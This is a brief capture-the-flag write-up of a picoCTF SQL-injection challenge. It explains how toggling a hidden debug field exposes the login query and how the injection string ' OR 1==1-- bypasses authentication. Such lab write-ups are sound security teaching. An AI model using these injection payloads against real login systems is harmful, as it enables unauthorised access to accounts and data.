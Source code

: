 ## Problem Statement
---

### Lab 4: Irish-Name-Repo 1 (300 pts)

**Problem:**

>There is a website running at https://2019shell1.picoctf.com/problem/47253/ or http://2019shell1.picoctf.com:47253. Do you think you can log us in? Try to see if you can login!

**Hints:**

1. There doesn't seem to be many ways to interact with this, I wonder if the users are kept in a database?
2. Try to think about how does the website verify your login?

## Write-Up
---

Upon inspecting the login page, we can find a suspicious tag buried in the source:
```html
<input type="hidden" name="debug" value="0">
```
Setting the value to `1` and entering some username and password shows:
```
username: admin
password: admin
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin'
Login failed.
```

Notice the SQL query. Setting the username to a single quote (`'`) and logging in results in:
```
username: '
password: 
SQL query: SELECT * FROM users WHERE name=''' AND password=''
```

Reviewing the network activity shows a return code of `500: Internal Server Error`. This indicates the absence of proper SQL filtering. A simple SQL injection of `' OR 1==1--` brings us into the mainframe :).
